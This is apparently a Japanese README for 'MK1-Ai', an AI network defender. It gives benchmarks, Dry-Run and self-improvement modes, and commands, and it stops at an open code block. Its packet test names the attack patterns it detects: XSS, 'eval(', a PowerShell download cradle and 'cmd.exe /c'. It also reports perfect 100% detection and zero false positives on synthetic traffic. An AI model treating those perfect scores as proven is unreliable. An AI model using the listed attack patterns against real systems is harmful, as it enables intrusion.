

# MK1-Ai (Project Sovereign-Airgap) ベンチマークスコア・システムモード・操作コマンド・総合レッドチーム検証リファレンス

> **最終更新日時**: `2026-10-28T19:29:00+09:00`  
> **収録内容**:
> 1. [ベンチマークスコア総覧（Chromebook 1500MB制限・暗号・PQC・End-to-End）](#1-ベンチマークスコア総覧)
> 2. [システム動作モード仕様（Dry-Run / 鬼モード / 段階的防御 / Head B 学習）](#2-システム動作モード仕様dry-run--鬼モード--段階的防御--head-b-学習)
> 3. [ユーザー操作コマンド体系・100万回パケット検証＆軽量サンドボックスOS](#3-ユーザー操作コマンドリファレンス)
> 4. [MK1Ai 総合レッドチーム・ランダム攻撃（10万件）・ゼロトラスト耐性・1.6 Tbps / 5 Pbps 性能検証レポート（独立評価・実測監査 A〜K）](#4-mk1ai-総合レッドチームランダム攻撃ゼロトラスト耐性16-tbps--5-pbps-性能検証レポート独立評価実測監査)

本ドキュメントは、`MK1-Ai (Project Sovereign-Airgap)` の**実測ベンチマークスコア一覧**、**Dry-Run（ドライラン）モードをはじめとするシステム動作モードの仕様**、**ユーザーが日常運用・学習・検証で使用するコマンド体系**、および**独立評価者による総合レッドチーム・ランダム攻撃（10カテゴリ×10,000件）・ゼロトラスト耐性・1.6 Tbps / 5 Pbps 性能検証レポート（全11章：A〜K）**をまとめた統合リファレンスです。

---

## 1. ベンチマークスコア総覧

### 1.1 Chromebook (Crostini Linux / RAM 4GB) 1500MB メモリ制限下での実機稼働・Head B 学習ベンチマーク

Chromebook (Crostini Linux) 上の仮想環境 `defender-env` において、`--ram-limit 1500`（上限 1.5GB）を適用した状態での Google Drive 自動取得・データ変換・Head B オンライン適合学習の実測スコアです。

| 検証項目 | 計測結果 / スコア | 備考・最適化内容 |
| :--- | :--- | :--- |
| **動作環境** | Linux `6.6.147` (Crostini / 総RAM 4GB) | Python 3.13 / PyTorch 2.14.0+cpu (`defender-env`) |
| **CPU スレッド制限** | `1` スレッド (`torch.set_num_threads(1)`) | `OMP_NUM_THREADS=1`, `MKL_NUM_THREADS=1` によりメモリ・CPU競合を抑制 |
| **メモリ割り当て上限** | **1500 MB (1.5 GB)** | `RLIMIT_DATA` + バックグラウンド RSS/Swap 監視スレッド |
| **ピーク実メモリ使用量 (RSS)** | **346.8 MB** (上限の **23.1%**) | OOM Killer による強制終了（Killed）ゼロで完走 |
| **ピーク Swap 使用量** | **0.0 MB** | スワップ退避なし（上限閾値 100 MB 未満を維持） |
| **Google Drive 自動取得時間** | **約 0.44 秒** | IPv4 優先化 (`_prefer_ipv4_for_drive`) により従来の約 20.6 秒から大幅短縮 |
| **データ自動変換・統合速度** | **538 件 / 1 秒未満** | `dummy_0.json`〜`dummy_99.json` + `.jsonl` を自動連結・検証 (`curated_data.jsonl`) |
| **AI 2段階データ厳選 (`curate_and_save`)** | **採用 24 件 / 破棄 514 件** | 条件: `0.4 <= Head A <= 0.7`（境界領域）かつ `Head B >= 0.6`（無害確信度） |
| **Head B オンライン適合学習 (厳選バッチ)** | **Loss = 0.1512** (24 件学習完了) | `shared_layer`, `Head A`, `Head C` は完全凍結 (`requires_grad=False`)・破滅的忘却ゼロ |
| **Head B 軽量検証 (`--validation-only`)** | **Loss = 0.8175 → 0.8204 → 0.8143 → 0.8173** | `--max-samples 32`（バッチサイズ 8 × 4 イテレーション、計 32 件完走） |

---

### 1.2 暗号・PQC・パケット検査コンポーネント単体ベンチマーク

`scripts/throughput_component_probe.py` によるコンポーネント単体性能および再現性（3回反復計測）のベンチマーク結果です。

#### (A) AES-256-GCM 認証付き暗号化・復号スループット（12B Nonce 生成・認証タグ検証込み）

| フレームサイズ | 暗号化 (Encrypt) スループット | 暗号化 処理回数 | 暗号化 遅延 (p95 / p99) | 復号 (Decrypt) スループット | 復号 処理回数 | 復号 遅延 (p95 / p99) |
| ---: | ---: | ---: | ---: | ---: | ---: | ---: |
| **64 B** | **0.207 Gbps** | 404,136 ops/s | 2.32 / 4.80 µs | **0.509 Gbps** | 995,083 ops/s | 0.99 / 1.12 µs |
| **128 B** | **0.383 Gbps** | 374,233 ops/s | 4.10 / 5.01 µs | **0.981 Gbps** | 958,046 ops/s | 1.03 / 1.36 µs |
| **256 B** | **0.599 Gbps** | 292,390 ops/s | 2.36 / 2.68 µs | **1.957 Gbps** | 955,351 ops/s | 1.05 / 1.26 µs |
| **512 B** | **1.616 Gbps** | 394,416 ops/s | 2.47 / 2.74 µs | **2.771 Gbps** | 676,476 ops/s | 1.14 / 1.26 µs |
| **1024 B** | **3.007 Gbps** | 367,021 ops/s | 2.65 / 3.01 µs | **5.130 Gbps** | 626,182 ops/s | 3.26 / 4.81 µs |
| **1518 B** | **3.845 Gbps** | 316,581 ops/s | 2.83 / 3.14 µs | **7.423 Gbps** | 611,225 ops/s | 1.48 / 1.86 µs |

> [!NOTE]
> 1518B フルサイズフレームでは暗号化単体で約 **3.85 Gbps**、復号単体で約 **7.42 Gbps** に達しており、AES-NI / OpenSSL バックエンド自体は 1 Gbps ワイヤレートを超える余力があります。

#### (B) 耐量子計算機暗号 (PQC) 鍵交換ベンチマーク (`ML-KEM-768`)

| コンポーネント | スループット (Baseline) | スループット (AI 有効環境) | 遅延 p95 / p99 | 3回反復 平均 ± 標準偏差 |
| :--- | ---: | ---: | ---: | ---: |
| **ML-KEM-768** (`encapsulate` + `decapsulate`) | **5,227 ops/s** | **5,359 ops/s** | **205.92 / 217.90 µs** | 3,907.85 ± 316.09 ops/s |

#### (C) 合成パケット検査パイプライン（DPI + ルール検査 vs AI 診断 ON/OFF）

Python の `PacketInspectingTunBridge` 上で 1 パケットずつ DPI・ルール検査・AI 推論（3-Head Airgap Neural Network）を実行した際の比較スコアです。

| フレームサイズ | AI 無効 (DPI + ルールのみ) | AI 無効 p95 / p99 | AI 有効 (PyTorch 推論込み) | AI 有効 p95 / p99 | Baseline 最大値 (Mbps換算) |
| ---: | ---: | ---: | ---: | ---: | ---: |
| **64 B** | **9,111 pkt/s** (4.66 Mbps) | 119.48 / 132.23 µs | **3,046 pkt/s** (1.56 Mbps) | 249.03 / 291.56 µs | **10,041 pkt/s** (5.14 Mbps) |
| **128 B** | **6,954 pkt/s** (7.12 Mbps) | 139.09 / 162.71 µs | **3,674 pkt/s** (3.76 Mbps) | 278.54 / 353.50 µs | **8,976 pkt/s** (9.19 Mbps) |
| **256 B** | **5,335 pkt/s** (10.93 Mbps) | 189.40 / 203.91 µs | **3,495 pkt/s** (7.16 Mbps) | 605.60 / 627.51 µs | **6,242 pkt/s** (12.78 Mbps) |
| **512 B** | **4,074 pkt/s** (16.69 Mbps) | 261.81 / 274.54 µs | **2,785 pkt/s** (11.41 Mbps) | 386.60 / 430.16 µs | **5,339 pkt/s** (21.87 Mbps) |
| **1024 B** | **2,533 pkt/s** (20.75 Mbps) | 454.42 / 677.68 µs | **1,913 pkt/s** (15.67 Mbps) | 563.52 / 797.50 µs | **3,652 pkt/s** (29.92 Mbps) |
| **1518 B** | **1,554 pkt/s** (18.88 Mbps) | 1111.19 / 1538.54 µs | **1,401 pkt/s** (17.01 Mbps) | 1037.28 / 1324.49 µs | **2,536 pkt/s** (30.80 Mbps) |

#### (D) 全パケット強制検査ログ出力 (`FULL_PACKET_INSPECTION`)

| フレームサイズ | レコード書き込み速度 | ログ出力帯域 | 遅延 (p95 / p99) |
| ---: | ---: | ---: | ---: |
| **64 B** | **8,102 record/s** | 5.65 MiB/s | 135.10 / 164.61 µs |
| **256 B** | **6,389 record/s** | 4.53 MiB/s | 164.48 / 199.78 µs |
| **512 B** | **5,329 record/s** | 3.87 MiB/s | 203.29 / 273.32 µs |
| **1024 B** | **7,140 record/s** | 5.45 MiB/s | 150.70 / 181.65 µs |
| **1518 B** | **8,017 record/s** | 6.58 MiB/s | 140.42 / 154.07 µs |

---

### 1.3 Localhost 統合セキュア経路ベンチマーク (End-to-End)

`ML-KEM-768` 鍵交換 + `HKDF-SHA-256` + `AES-256-GCM` + `DPI` + `強制検査ログ` をすべて結合した localhost ループバック通信の実測値です。

| ペイロード長 | 同時接続数 | AI 無効: 処理性能 (req/s) | AI 無効: 実効帯域 (Mbps) | AI 無効: p95 遅延 (ms) | AI 有効: 処理性能 (req/s) | AI 有効: 実効帯域 (Mbps) | AI 有効: p95 遅延 (ms) |
| ---: | ---: | ---: | ---: | ---: | ---: | ---: | ---: |
| **64 B** | 1 conn | **2,387 req/s** | 1.222 Mbps | 0.45 ms | **1,790 req/s** | 0.916 Mbps | 0.58 ms |
| **64 B** | 8 conn | **1,529 req/s** | 0.783 Mbps | 4.86 ms | **746 req/s** | 0.382 Mbps | 10.67 ms |
| **64 B** | 32 conn | **1,420 req/s** | 0.727 Mbps | 19.63 ms | **777 req/s** | 0.398 Mbps | 35.84 ms |
| **512 B** | 1 conn | **1,700 req/s** | 6.962 Mbps | 0.65 ms | **1,348 req/s** | 5.522 Mbps | 0.80 ms |
| **512 B** | 8 conn | **1,062 req/s** | 4.351 Mbps | 6.72 ms | **622 req/s** | 2.548 Mbps | 12.66 ms |
| **512 B** | 32 conn | **1,163 req/s** | 4.764 Mbps | 24.48 ms | **645 req/s** | 2.641 Mbps | 44.36 ms |
| **1518 B** | 1 conn | **1,281 req/s** | **15.562 Mbps** | 0.85 ms | **892 req/s** | **10.835 Mbps** | 1.21 ms |
| **1518 B** | 8 conn | **975 req/s** | 11.840 Mbps | 7.64 ms | **478 req/s** | 5.810 Mbps | 16.01 ms |
| **1518 B** | 32 conn | **941 req/s** | 11.430 Mbps | 30.89 ms | **498 req/s** | 6.052 Mbps | 55.69 ms |

* **プロセス常駐メモリ (RSS)**:
  * AI 無効時: **50.6 〜 56.8 MiB**
  * AI 有効時 (PyTorch ロード時): **247.6 〜 253.4 MiB**
* **品質・テストスイート検証結果**:
  * 全自動テスト: **351 passed, 17 skipped, 159 subtests passed**
  * 性能・容量回帰テスト (`tests/test_performance_capacity.py`): **15 passed, 97 subtests passed**

---

### 1.4 自作仮想化OS (`mk1-sandbox-os` / 500MB RAM上限) での 100万回×2（計200万パケット）誤検知＆実エアギャップ遮断ベンチマーク

ホストOS（Chromebook Crostini）のインターネット接続（`eth0`）を誤遮断から 100% 保護するため、Linux カーネル名前空間（`net`, `mount`, `uts`, `ipc`, `pid`）と `tmpfs`（上限 500MB）および仮想イーサネットペア（`eth0` ↔ `veth_peer`）を用いた**MK1-Ai 専用・自作軽量仮想OS環境 (`mk1-sandbox-os.sh`)** を構築し、**正常パケット 1,000,000 回**と**攻撃パケット 1,000,000 回**（合計 **2,000,000 パケット**）を注入した実測結果です（詳細JSON: `docs/million-packet-airgap-report.json`）。

| 検証フェーズ・評価指標 | 計測結果 / スコア | 詳細・内訳 |
| :--- | :--- | :--- |
| **仮想化OS環境 (`mk1-sandbox-os`)** | **RAM 上限 500 MB / ピーク RSS 251.0 MB** | 追加ディスク消費 **0 MB**（Read-Only 共有 + 500MB `tmpfs`） |
| **Phase 1: 正常通信パケット総数** | **1,000,000 回 (100万パケット完走)** | HTTP GET/POST, JSON REST API, JWT認証, WebSocket, TLS 1.3, DNS, SSH, WireGuard, 純粋ACK, HTML |
| **Phase 1: 処理時間 / スループット** | **82.30 秒 / 12,151.2 pkt/s** | 4 ワーカー並列 + 実 `veth` ソケット注入 10,000 パケット |
| **Phase 1: 誤検知数 (False Positive)** | **0 件 (誤検知率 0.000000%)** | 100万回すべて `block=False`、キルスイッチ誤発動 `False`、仮想OS内 `eth0` は `UP` を維持 |
| **Phase 1: 3-Head AI 推論スコア** | **Head B (正常確信度) = 0.8039 〜 0.9193** | HTTP/JSON/JWT/TLS/SSH/HTML で `Head A = 0.0018〜0.0028`（極めて低い脅威度） |
| **Phase 2: 攻撃・異常パケット総数** | **1,000,000 回 (100万パケット完走)** | XSS (`<script>`, `javascript:`), `eval(`, `powershell`, `cmd.exe`, 特大フレーム(65,600B), ブラックリストIP |
| **Phase 2: 処理時間 / スループット** | **105.80 秒 / 9,452.1 pkt/s** | 4 ワーカー並列 + 実 `veth` ソケット注入 10,000 パケット |
| **Phase 2: 攻撃検知・ブロック数** | **1,000,000 件 (検知率 100.000000%)** | **検知漏れ (False Negative) = 0 件**（`signature`: 750,000 / `frame_length`: 125,000 / `blacklist`: 125,000） |
| **Phase 3: 実エアギャップ遮断の発動** | **`eth0` & `veth_peer` → `state DOWN` 成功** | `_KILL_SWITCH_EVENT=True` → 仮想OS内全NIC停止 (`is_network_available() == False`) + `/etc/modprobe.d/mk1ai-airgap.conf` 適用 |
| **ホストOS側インターネット安全性** | **ホスト `eth0` は `state UP` を 100% 維持** | 仮想OS内だけを完全エアギャップ化し、ホストの通信切断ゼロを実証 |

#### (A) Phase 1: 正常通信 1,000,000 パケットのテンプレート別 3-Head AI 推論スコア内訳

| 正常通信テンプレート種別 | 検証回数 | 誤検知数 (FP) | Head A (脅威スコア) | Head B (正常・無害確信度) | Head C (RAM退避予測) | 最終判定 |
| :--- | ---: | ---: | ---: | ---: | ---: | :--- |
| `HTTP_GET_HTML` (標準Web閲覧) | 100,000 回 | **0 件** | `0.0022` | **`0.9192`** | `0.6521` | **許可 (Pass)** |
| `REST_JSON_API` (JSONテレメトリ) | 100,000 回 | **0 件** | `0.0023` | **`0.9192`** | `0.6526` | **許可 (Pass)** |
| `JWT_AUTH_HEADER` (Bearer JWT認証) | 100,000 回 | **0 件** | `0.0028` | **`0.9193`** | `0.6546` | **許可 (Pass)** |
| `WEBSOCKET_HEARTBEAT` (WS Ping) | 100,000 回 | **0 件** | `0.0021` | **`0.9191`** | `0.6515` | **許可 (Pass)** |
| `TLS13_CLIENT_HELLO` (Google Drive TLS) | 100,000 回 | **0 件** | `0.0022` | **`0.9192`** | `0.6520` | **許可 (Pass)** |
| `DNS_STANDARD_QUERY` (UDP 53 名前解決) | 100,000 回 | **0 件** | `0.5041` | **`0.8044`** | `0.6239` | **許可 (Pass)** |
| `SSH_BANNER_EXCHANGE` (TCP 22 SSH) | 100,000 回 | **0 件** | `0.0020` | **`0.9191`** | `0.6504` | **許可 (Pass)** |
| `WIREGUARD_UDP_KEEPALIVE` (UDP 51820) | 100,000 回 | **0 件** | `0.4855` | **`0.8039`** | `0.6226` | **許可 (Pass)** |
| `TCP_PURE_ACK` (TCP ACK 制御パケット) | 100,000 回 | **0 件** | `0.0018` | **`0.9191`** | `0.6495` | **許可 (Pass)** |
| `HTML_DOCUMENT_SNIPPET` (HTML応答) | 100,000 回 | **0 件** | `0.0023` | **`0.9192`** | `0.6524` | **許可 (Pass)** |
| **合計 / 総合結果** | **1,000,000 回** | **0 件 (0.000000%)** | 最大 `0.5041` | **平均 `0.8962`** | 平均 `0.6462` | **誤遮断ゼロ** |

#### (B) Phase 2 & 3: 攻撃・異常通信 1,000,000 パケットの検知ステージ内訳と実エアギャップ遮断結果

| 攻撃・異常パケット種別 | 検証回数 | ブロック検知数 | 検知漏れ (FN) | 検知ステージ (`stage`) | エアギャップ連動アクション |
| :--- | ---: | ---: | ---: | :--- | :--- |
| `XSS_SCRIPT_INJECTION` (`<script>...`) | 125,000 回 | **125,000 件** | **0 件** | `signature` | 即時ブロック + キルスイッチ発動 |
| `JAVASCRIPT_URI_ATTACK` (`javascript:...`) | 125,000 回 | **125,000 件** | **0 件** | `signature` | 即時ブロック + キルスイッチ発動 |
| `REMOTE_CODE_EVAL` (`eval(...)`) | 125,000 回 | **125,000 件** | **0 件** | `signature` | 即時ブロック + キルスイッチ発動 |
| `POWERSHELL_CRADLE` (`powershell -NoP...`) | 125,000 回 | **125,000 件** | **0 件** | `signature` | 即時ブロック + キルスイッチ発動 |
| `CMD_EXE_SHELL` (`cmd.exe /c ...`) | 125,000 回 | **125,000 件** | **0 件** | `signature` | 即時ブロック + キルスイッチ発動 |
| `COMBINED_XSS_EVAL_CMD` (複合難読化攻撃) | 125,000 回 | **125,000 件** | **0 件** | `signature` | 即時ブロック + キルスイッチ発動 |
| `OVERSIZED_JUMBO_FRAME_65600B` (規約超過長) | 125,000 回 | **125,000 件** | **0 件** | `frame_length` | 即時ブロック + キルスイッチ発動 |
| `BLACKLISTED_SOURCE_ATTACK` (遮断対象IP) | 125,000 回 | **125,000 件** | **0 件** | `blacklist` | 即時ブロック + キルスイッチ発動 |
| **合計 / 総合結果** | **1,000,000 回** | **1,000,000 件 (100%)** | **0 件 (0.000000%)** | 全ステージ完全捕捉 | **仮想OS内全NIC (`eth0`, `veth_peer`) `state DOWN` 完了** |

---

## 2. システムのドライランモード（Dry-Run Mode）と各種動作モード解説

`airgap_ai_defender.py` には、誤検知によるシステムロックアウトやネットワーク切断事故を防ぐための複数の安全モードが実装されています。



### 2.1 ドライランモード（Dry-Run Mode）【デフォルト：有効】

* **概要**:
  `MK1-Ai` は起動時に**デフォルトで Dry-Run（ドライラン：演習・監視）モード (`DRY_RUN_MODE = True`)** で稼働します。
* **Dry-Run モード中の挙動**:
  1. **リアルタイムパケット監視と AI 3-Head 推論（Head A: 攻撃検知 / Head B: 環境適合 / Head C: 未知の異常検知）は本番と同様にフル稼働**します。
  2. 脅威を検知した場合、`[演習モード(Dry-Run)]` として検知スコア・送信元 IP・攻撃種別をコンソールおよび監査ログ（`./ai_data/events/` 等）へ記録します。
  3. **実際の破壊的・遮断アクションは一切行いません**。具体的には以下の処理が安全にスキップされます：
     * `iptables` / `nftables` による通信の完全遮断（DROP）
     * `sysctl` によるカーネルパラメータの強制書き換え（`enforce_kernel_hardening`）
     * カウンター・ハニーポット（ポート 8080 での偽装応答・遅延タールピット）の実バインド
     * C 言語高速パケットエンジン (`fast_net`) への強制パージシグナル送信
* **`--no-dry-run` オプションと安全保護ロックについて**:
  * CLI 引数に `--no-dry-run` が用意されていますが、現行バージョンでは **AI の単独判断による誤遮断（暴走）を防止する安全設計（Safety Gate）** により、`--no-dry-run` を指定しても**人間の個別イベント承認フローが接続されるまでは自動的に Dry-Run モードが維持**されます。
  * 設定ファイル `./ai_data/config.json` の `"DRY_RUN_MODE": true` または起動時ログの `🛡️ 現在の動作モード: 【演習モード (Dry-Run: 警告のみ・通信遮断なし)】` で状態を確認できます。

### 2.2 セキュア・メンテナンスモード（学習モード）

* **概要**:
  `--drive-id` による Google Drive からのデータセット更新時、または `--rsi`（自己改善モード）の実行時に自動的に切り替わる一時メンテナンスモードです。
* **挙動 (`Enter_Maintenance_Mode` / `Exit_Maintenance_Mode`)**:
  1. 学習データのダウンロード開始前に WireGuard (`wg0`) トンネルを一時停止し（未構成環境では安全にスキップ）、HTTPS（Google Drive 通信）を許可します。
  2. IPv4 優先通信 (`_prefer_ipv4_for_drive`) で高速にデータを取得し、`./ai_data` 直下への展開・フォーマット変換・AI 厳選 (`curate_and_save`)・Head B のオンライン適合学習 (`train_local_whitelist`) を実行します。
  3. 処理が完了（または例外発生）すると `finally` ブロックにより**必ずメンテナンスモードを終了**し、WireGuard の再有効化と完全エアギャップ防御体制への復帰を自動実行します。

### 2.3 RSI モード（Recursive Self-Improvement / 自己改善モード）

* **概要**:
  `--rsi` フラグ指定時、または Google Colab / GPU 環境で大規模なベースモデル再学習を行うモードです。
* **挙動**:
  * ローカルの厳選済みデータ (`./ai_data/curated/`) や新規取得データを用いてモデル全体の再評価・自己改善サイクルを回し、完了後に自動でシステムを再起動（またはエアギャップ監視へ復帰）します。

### 2.4 鬼モード (`ONI_MODE`)

* **概要**:
  環境変数 `ONI_MODE=1` を指定して起動した場合に有効化される最高強度セキュリティモードです。
* **挙動**:
  * AI の検知閾値を極限まで厳格化し、わずかなアノマリ（異常値）も逃さず検知・記録します。

---

## 3. ユーザー操作コマンドリファレンス

### 3.1 仮想環境（`defender-env`）での AI ディフェンダー操作コマンド

作業ディレクトリ `/home/harukiy1225/MK1Ai-main` にて、`defender-env` 仮想環境を使用して実行します。

#### ① ヘルプと利用可能オプションの確認
```bash
/home/harukiy1225/defender-env/bin/python airgap_ai_defender.py --help
```

#### ② Google Drive 自動データ取得 ＋ Head B オンライン適合学習 ＋ 常駐監視（RAM 1500MB 制限）
Chromebook (RAM 4GB) 環境で OOM クラッシュを防ぎながら Google Drive から最新データを取得・変換し、Head B の学習後にそのままエアギャップ監視へ移行する標準コマンドです。
```bash
PATH="/home/harukiy1225/defender-env/bin:$PATH" \
python airgap_ai_defender.py \
  --drive-id "100FIfMbB-0kR2bg2NXl-O1k-Lilz-j_G" \
  --ram-limit 1500
```

#### ③ 軽量検証モード（`--validation-only`：監視ループに入らず学習完走のみをテスト）
常駐パケット監視を起動せず、既存または取得済みのデータで **Head B のオンライン適合学習がメモリ上限内で正常完走するかだけを素早くテスト**したい場合に使用します。
```bash
PATH="/home/harukiy1225/defender-env/bin:$PATH" \
python airgap_ai_defender.py \
  --validation-only \
  --max-samples 32 \
  --ram-limit 1500
```
* `--drive-id "<FOLDER_OR_FILE_ID>"` を併用すると、Google Drive からのダウンロード〜変換〜指定サンプル数学習までを一気通貫で検証して終了します：
```bash
PATH="/home/harukiy1225/defender-env/bin:$PATH" \
python airgap_ai_defender.py \
  --drive-id "100FIfMbB-0kR2bg2NXl-O1k-Lilz-j_G" \
  --validation-only \
  --max-samples 32 \
  --ram-limit 1500
```

#### ④ 通常起動（Google Drive 更新なし・ローカルモデルで即座に Dry-Run 監視開始）
```bash
PATH="/home/harukiy1225/defender-env/bin:$PATH" \
python airgap_ai_defender.py --ram-limit 1500
```

#### ⑤ 自己改善（RSI）モードでの起動
```bash
PATH="/home/harukiy1225/defender-env/bin:$PATH" \
python airgap_ai_defender.py \
  --rsi \
  --drive-id "100FIfMbB-0kR2bg2NXl-O1k-Lilz-j_G" \
  --ram-limit 1500
```

#### ⑥ 鬼モード (`ONI_MODE=1`) での厳格監視起動
```bash
ONI_MODE=1 PATH="/home/harukiy1225/defender-env/bin:$PATH" \
python airgap_ai_defender.py --ram-limit 1500
```

---

### 3.2 `airgap_ai_defender.py` の CLI オプション一覧

| オプション | 引数 / 型 | デフォルト値 | 説明 |
| :--- | :--- | :--- | :--- |
| `--drive-id` | ` TEXT ` | なし | Google Drive のファイル ID またはフォルダ ID を指定し、起動時に自動ダウンロード・`./ai_data` への配置・Head B 学習を実行します。 |
| `--ram-limit` | ` INT ` (MB) | `3500` | プロセスが使用する最大 RAM 容量 (MB) を制限します。Chromebook 4GB 環境では `1500` を推奨します。 |
| `--validation-only` | フラグ | `False` | 常駐ネットワーク監視をスキップし、Head B の軽量オンライン適合学習の稼働検証のみを実行して終了します。 |
| `--max-samples` | ` INT ` | `32` | `--validation-only` 実行時に学習へ使用する最大サンプル件数を指定します。 |
| `--rsi` | フラグ | `False` | RSI（自己改善・再学習）モードで起動します。 |
| `--colab-mode` | フラグ | `False` | Google Colab 等のクラウド学習環境向けに、ローカルネットワーク防御機能を無効化して学習処理のみを実行します。 |
| `--no-dry-run` | フラグ | `False` | 実遮断モードを要求するフラグ（※現在は安全保護によりオペレーター承認機構が有効化されるまで Dry-Run が強制維持されます）。 |

---

### 3.3 設定ファイル（`./ai_data/config.json`）による動的チューニング

`./ai_data/config.json` を編集することで、コードを変更せずに AI の検知感度やリソース上限を調整できます（再起動時または設定リロード時に反映）。

```json
{
    "SENSITIVITY_THRESHOLD": 0.70,
    "WHITELIST_CONFIDENCE": 0.85,
    "ANOMALY_SENSITIVITY": 0.75,
    "CURATION_LOWER_BOUND": 0.40,
    "CURATION_UPPER_BOUND": 0.70,
    "CURATION_SAFE_MIN": 0.60,
    "DRY_RUN_MODE": true,
    "AUTO_HARDEN_ON_BOOT": false,
    "MAX_RAM_MB": 1500,
    "MAX_SWAP_MB": 100
}
```

* `SENSITIVITY_THRESHOLD` (Head A): 既知の攻撃と判定する閾値（下げるほど厳しく検知）。
* `WHITELIST_CONFIDENCE` (Head B): ローカル環境で安全な通信とみなす確信度閾値。
* `ANOMALY_SENSITIVITY` (Head C): 未知のゼロデイ異常と判定する閾値。
* `DRY_RUN_MODE`: `true` の場合は警告ログのみで通信遮断を行いません。
* `AUTO_HARDEN_ON_BOOT`: `false`（推奨）の場合、起動時の `sysctl` カーネル強制書き換えを抑止します。

---

### 3.4 統合ランチャー・C言語 TUI 操作パネル (`mk1-panel`) コマンド

システム全体のビルド、セルフテスト、および C 言語 (`ncurses`) 製の対話型 TUI コントロールパネルの操作コマンドです。

#### ① ワンコマンド起動スクリプト (`run.sh`)
環境構築・C バイナリのビルド・セルフテスト・パネル起動を自動実行します。
```bash
./run.sh
```
* ビルドとセルフテストのみを実行して終了する場合：
```bash
./run.sh --check-only
```

#### ② C言語 TUI 操作パネルの起動 (`mk1-panel.sh`)
```bash
bash ./mk1-panel.sh
```
* 現在の状態サマリをテキスト出力して終了する場合（非対話モード）：
```bash
./bin/mk1_panel --summary
```

#### ③ TUI 操作パネル内のキーボードショートカット一覧

| キー | 機能・アクション |
| :---: | :--- |
| `[1]` | **起動 / 停止 トグル**: システム稼働状態の切り替え |
| `[2]` | **防御強度レベル切替**: `LOW` / `MEDIUM` / `HIGH` の切り替え |
| `[3]` | **VPN モード切替**: `WireGuard` / `OpenVPN` / `IPsec` の切り替え |
| `[4]` | **遮断ポリシー切替**: `DROP`（即時破棄） / `Quarantine`（隔離） / `Alert`（警告のみ） |
| `[5]` | **パケットサイズ上限変更**: 検査対象の最大パケットサイズ設定 |
| `[6]` | **レート制限変更**: 秒間リクエスト上限値の変更 |
| `[7]` | **認証失敗上限変更**: ロックアウトまでの最大認証失敗回数の設定 |
| `[8]` | **全設定一括変更ウィザード**: 対話形式で全項目を順番に設定 |
| `[m]` | **AI 監視モード切替**: AI ディフェンダーの監視モード変更 |
| `[u]` | **手動 AI 学習・更新トリガー**: 蓄積されたログを用いた AI 再学習の即時実行 |
| `[e]` | **最新イベント詳細表示**: 直近の脅威検知イベントの詳細インスペクション |
| `[a]` | **全項目順次ガイド設定**: 初期セットアップ用の順次設定ガイド |
| `[q]` | **パネル終了**: 設定を保存して TUI パネルを閉じる |

---

### 3.5 ベンチマーク再計測・単体テスト実行コマンド

#### ① コンポーネント単体スループット計測 (`throughput_component_probe.py`)
```bash
# ベースライン計測（JSON出力）
PYTHONPATH=src /home/harukiy1225/defender-env/bin/python scripts/throughput_component_probe.py \
  --iterations-per-size 200 \
  --pqc-iterations 30 \
  --json-output docs/throughput-component-baseline.json

# AI 診断 ON / OFF の直接比較計測
PYTHONPATH=src /home/harukiy1225/defender-env/bin/python scripts/throughput_component_probe.py \
  --compare-ai-modes \
  --iterations-per-size 200 \
  --pqc-iterations 30 \
  --json-output docs/throughput-component-ai-comparison.json
```

#### ② 統合ループバック・容量スケーリング計測 (`test_performance_capacity.py`)
```bash
# AI 無効時の統合ループバック性能テスト
PYTHONPATH=src /home/harukiy1225/defender-env/bin/python -m unittest -v tests.test_performance_capacity

# AI 有効時の統合ループバック性能テスト
MK1_ENABLE_AI_DIAGNOSTICS=1 PYTHONPATH=src /home/harukiy1225/defender-env/bin/python -m unittest -v tests.test_performance_capacity
```

#### ③ C 言語ネイティブコンポーネントのビルド＆静的解析 (`Makefile`)
```bash
# C バイナリのビルドとテスト実行
make check

# コンパイラ警告・静的解析チェック
make analyze
```

#### ④ 自作仮想化OS環境 (`mk1-sandbox-os.sh` / 500MB RAM 上限) と 100万回×2 パケット検証コマンド
ホストOSのインターネット接続を誤遮断から完全に保護した隔離仮想OS空間を起動し、100万回の正常通信テスト＋100万回の攻撃＆エアギャップ遮断テストを実行できます。

```bash
